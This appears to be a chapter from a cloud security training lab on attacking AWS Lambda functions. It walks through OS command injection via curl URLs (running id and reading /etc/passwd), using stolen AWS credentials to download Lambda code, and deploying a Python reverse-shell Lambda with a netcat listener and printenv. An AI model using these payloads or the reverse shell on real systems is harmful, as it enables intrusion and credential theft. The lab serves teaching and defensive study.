


# Attacking lambda endpoints

## Introduction

AWS Lambda is a compute service that lets you run code without provisioning or managing servers. AWS Lambda executes your code only when needed and scales automatically, from a few requests per day to thousands per second. You pay only for the compute time you consume - there is no charge when your code is not running.

AWS Lambda, essentially are short lived servers that run your function and provide you with output that can be then used in other applications or consumed by other endpoints.

## What are we going to cover?

This chapter covers a very popular attack that can occur on a Lambda function that has been weakly written.

User input should never be used directly into server side functions without sanitizing the user data first. This attack is a classic example of what can go wrong when user data is mixed with server side commands.

## Steps to setup lab

Run the following script on the student VM to bring up the target lambda function

    deploy-awslambda

The output of this script will be the API gateway endpoint that will be attacked. Record this output.

> If you see any error, please inform one of the trainers

## Steps to attack

### OS command Injection in Lambda

From the attacker VM, run the following commands. Replace this with your own API endpoints

    curl "https://API-endpoint/api/stringhere"

The output shows that the lambda is setup to access a string via an API Gateway and produces the MD5sum of the string being passed.

The Lambda has a command injection vulnerability. The injection point is the string input in the URL. For example, the `hello` string in the following URL

    curl "https://API-endpoint/api/hello"

A quick check with semi colons (as seen in the response) shows that the `md5sum` command needs to be consumed by a dangling linux command. Something on the following lines will ensure that `hello` is consumed by `echo -n`, the `id` command will execute and display the output while `w` is used to consume the `md5sum` to ensure proper output.

    curl "https://API-endpoint/api/hello;id;w"

To run commands that have spaces in them, use URL encoding

    curl "https://API-endpoint/api/hello;cat%20%2fetc%2fpasswd;w"

### Accessing the source of Lambda using stolen creds

When AWS credentials are stolen and added to AWS CLI via `aws configure`, you can run the following commands to attempt a download of the lambda code itself. This is useful if you have managed to obtain credentials from a different user/role/temporary tokens etc. and would want to see what lambda functions are running in the target environment.

These steps assume you have added the stolen credentials to a new profile called `stolen`

List lambda functions currently available

    aws lambda list-functions --profile stolen

Get download link for the lambda function that interests you

    aws lambda get-function --function-name <FUNCTION-NAME> --profile stolen

Once the code is downloaded, you can review the code for static sensitive information disclosure and other code vulnerabilities that you can exploit using whatever lambda triggers are in use.

### Gaining a reverse shell (Demo)

Sometimes lambda functions can be made to execute longer by changing its configuration.

We can use a vulnerable lambda that executes for longer intervals of time to gain a reverse shell to explore the lambda environment.

The following app.py file can be deployed as a lambda function to obtain a reverse shell

    from chalice import Chalice

    app = Chalice(app_name='reverseshell')

    @app.route('/{ip}')

    def index(ip):
        import socket,subprocess,os
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect((ip,9090))
        os.dup2(s.fileno(),0)
        os.dup2(s.fileno(),1)
        os.dup2(s.fileno(),2)
        p=subprocess.call(["/bin/bash","-i"])
        return {"msg":"Connection sent to :" + str(ip)}

Commands for the demo

    chalice new-project revshell
    
    cd revshell

Remove the default app.py inside the folder and replace with the app.py containing the lambda function that will initiate a reverse shell

    chalice deploy

On the server that will be the listener, run netcat to listen to an incoming connection

    nc -lvp 9090

This port number (9090) and the IP should be accessible to the Lambda function.

Once the API Endpoint is available, pass the IP you want it to connect back to (hardcoded port 9090)

    curl "https://API-endpoint/PUBLIC-IP-LISTENER"

From the shell that is now estabilished, explore the environment of the lambda function

    ls -ltra /

    printenv

## Additional references
- [Getting started](https://docs.aws.amazon.com/lambda/latest/dg/getting-started.html)
- [Lambda functions made easy](https://codeburst.io/aws-lambda-functions-made-easy-1fae0feeab27)
- [Lambhack](https://github.com/wickett/lambhack)
- [AWS vulnerable lambda](https://github.com/torque59/AWS-Vulnerable-Lambda)
- [Hacking Serverless runtimes](https://www.blackhat.com/docs/us-17/wednesday/us-17-Krug-Hacking-Severless-Runtimes.pdf)
- [Gone in 60 milliseconds](https://www.youtube.com/watch?v=YZ058hmLuv0)
- [Build and deploy a serverless REST API using chalice](https://aws.amazon.com/blogs/developer/build-and-deploy-a-serverless-rest-api-in-minutes-using-chalice/)
- [OWASP Top 10 Serverless](https://owasp.org/www-pdf-archive/OWASP-Top-10-Serverless-Interpretation-en.pdf)
- [Client-Side Keys, IAM Policies and a Vulnerable Lambda](https://speakerdeck.com/riyazwalikar/raining-shells-in-aws-by-chaining-vulnerabilities?slide=38)